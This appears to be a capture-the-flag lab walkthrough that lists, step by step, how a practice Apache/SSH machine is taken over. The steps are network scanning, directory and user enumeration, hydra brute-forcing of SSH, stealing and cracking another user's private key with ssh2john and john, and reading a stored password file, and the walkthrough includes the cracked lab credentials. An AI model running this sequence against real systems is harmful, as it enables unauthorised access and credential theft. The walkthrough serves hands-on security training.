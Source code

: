 ## System Details
- apache 2.5.12

---

# Process
1. `nmap -sV -A <ip>`
2. `dir <ip>` or `dirbuster/gobuster <ip>`
	1. *to find the hidden directories, etc*
3. go to `http://<ip>` and `http://<ip>/hidden_directories`
4. `enum4linux -a <ip>`
	1. *enumeration to find users*
5. `hydra -t 4 -l <user> -P /filepath/rockyou.txt ssh://<ip>`
	1. *crack for passwords*
6. `ssh <user>@<ip>`
	1. *log in using the cracked password of user above*
7. *look through system, also checking for the other user - find ssh_keys/etc*
	1. find `id_rsa` + copy sshkey in a file e.g. `sshkey` (include ---end---)
8. run `python usr/share/john/ssh2john.py sshkey > sshkeyhash.txt`
	1. hashes the ssh key for the right john hash 
9. run `john --wordlist=/usr/share/wordlists/rockyou.txt sshkeyhash.txt`
	1. *gives the result: beeswax (sshkey)*
10. `ssh -i /path/to/id_rsa kay@<ip>` 
	1. *either use path to .ssh directory, or be in it*
	2. *use this to connect through ssh with the ssh key, and enter `beeswax` for authorisation*
11. WERE IN
12. `cat pass.bak`
13. get password `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`